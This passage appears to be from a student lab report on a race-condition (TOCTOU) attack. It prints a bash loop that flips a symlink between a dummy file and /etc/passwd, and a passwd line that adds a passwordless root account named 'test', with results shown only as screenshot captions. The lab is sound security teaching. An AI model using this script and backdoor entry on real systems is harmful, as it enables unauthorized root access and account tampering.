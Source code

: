 \documentclass[10pt]{article}
\begin{document}
\begin{verbatim}
#!/bin/bash

# Setup
file="/tmp/worthlessFile"
touch $file

while true; do
	ln -sf /tmp/worthlessFile /tmp/XYZ
	sleep .001 
	ln -sf /etc/passwd /tmp/XYZ
	sleep .001
done

# Cleanup
rm -f $file
\end{verbatim}

The goal here is to try and force the program to jump to the '/etc/passwd' file.  This file contains all of the users currently on the operating system.

\subsection{Content Injection}

The last step is to decide what content to inject.  Here we are using a known string that will allow us to create a user called 'test' that is the root user with no password.

\begin{verbatim}
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
\end{verbatim}


\section{Part III: Results}
We run the two shell scripts:

\begin{figure}[H]
\centering
\includegraphics[scale=0.5]{./images/ss05.png}
\caption{vulnerable.sh}
\label{fig:Code}
\end{figure}

\begin{figure}[H]
\centering
\includegraphics[scale=0.5]{./images/ss04.png}
\caption{attacker.sh}
\label{fig:Code}
\end{figure}

And after a period of time, our race condition comes to completion.

\begin{figure}[H]
\centering
\includegraphics[scale=0.5]{./images/ss03.png}
\caption{completion}
\label{fig:Code}
\end{figure}
\end{document}
